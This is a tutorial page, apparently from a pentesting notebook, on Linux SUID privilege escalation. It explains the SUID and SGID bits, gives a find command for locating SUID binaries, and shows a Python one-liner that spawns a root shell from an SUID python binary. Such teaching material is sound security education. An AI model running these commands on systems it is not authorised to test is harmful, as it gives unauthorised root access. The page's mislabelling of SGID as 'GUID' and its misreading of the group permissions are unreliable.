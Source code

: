 # SUID Privilege Escalation

## What is SUID?

**Set User ID (SUID)** is a special permission in Unix/Linux systems. When a file has the SUID bit set, it allows the file to be executed with the privileges of the file's owner, regardless of the user running the file. Typically used to grant regular users temporary elevated permissions to execute specific tasks.

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Indicated by `rws` for the owner’s permission. When the **SUID** bit is set (`s` instead of `x` for execute), any user who runs this file does so with the **permissions of the file owner**. This is commonly used when a file is owned by **root** but allows regular users to execute it with root privileges.

The next three characters (`rws`) represent the permissions for the **group** that owns the file. Similar to the owner permissions, **read (r)**, **write (w)**, and **execute (x)** are granted or denied to the group. When the **GUID (Set Group ID)** is set, the execute bit for the group is replaced with an `s`, indicating that the file will be run with the group’s privileges.

The **GUID** is similar to SUID but applies to the **group**. It allows anyone executing the file to run it with the permissions of the group that owns the file. In this example, the group permission includes `s`, showing that the GUID bit is set.

## How to Identify SUID Files

SUID files can be identified by searching for files with the `s` bit in the owner's execute permission field.

```bash
find / -perm -4000 2>/dev/null
```

Example of an SUID file:

```bash
-rwsr-xr-x 1 root root /usr/bin/passwd
```

In this example:

* `rws` indicates the SUID bit is set.
* The owner is **root**, meaning any user executing this file does so with **root** privileges.

## How to exploit SUID Binaries to escalate privilege.

Certain binaries, like `su`, `sudo`, `passwd`,etc typically have the SUID bit set on all Linux systems. These are essential system binaries and are generally secure. However, vulnerabilities are more likely to be found in non-system binaries. To begin exploring potential exploitation methods, checking GTFObins for any relevant techniques is a great first step.

{% embed url="https://gtfobins.github.io/#+suid" %}

For an example, if suid is set on python then we can exploit it to escalate privileges

**Verify SUID on python**

```
ls -l /usr/bin/python
-rwsr-xr-x 1 root root /usr/bin/python

```

Create a Python One-Liner for Privilege Escalation

```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-i")'
```

Verifying privilege escalation

```
whoami
root
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

